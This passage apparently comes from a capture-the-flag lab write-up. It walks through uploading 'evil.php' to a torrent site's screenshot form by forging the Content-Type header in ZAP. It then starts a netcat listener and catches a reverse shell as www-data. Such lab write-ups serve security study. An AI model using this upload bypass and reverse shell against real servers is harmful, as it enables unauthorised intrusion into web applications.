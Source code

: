 ```
Content-Disposition: form-data; name="submit"
 
Submit Screenshot
-----------------------------6880877471789511041406832871--
 
```
 
Note we specify the content type header in our submission as `Content-Type: application/x-php`
 
Let's replay with the Request Editor Feature in ZAP it by right clicking on the data and editing the header as:
 
```
-----------------------------6880877471789511041406832871
Content-Disposition: form-data; name="file"; filename="evil.php"
Content-Type: image/png
 
```
 
This time I get the following response data:
 
```
Upload: evil.php<br />Type: image/png<br />Size: 2.962890625 Kb<br />Upload Completed. <br />Please refresh to see the new screenshot.
```
 
Looks like the server doesn't restrict the upload types.
 
I set up a listener on my Linux with:
 
``` bash
nc -nvlp 1337
```
 
Right click the "no image found" image url and get a shell:
 
```
listening on [any] 1337 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.6] 48695
```
 
This times out after 20 seconds because of the ZAP proxy settings:
 
```
Failed to read http://10.10.10.6/torrent/upload/723bc28f9b6f924cca68ccdff96b6190566ca6b4.php within 20 seconds, check to see if the site is available and if so consider adjusting ZAP's read time out in the Connection options panel.
```
 
I disable the proxy and shutdown ZAP as its done its job and re-trigger the connection.
 
With this access I have a low priv shell and can claim the user flag.
 
``` bash
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
 
 
## Priv Escalation
 
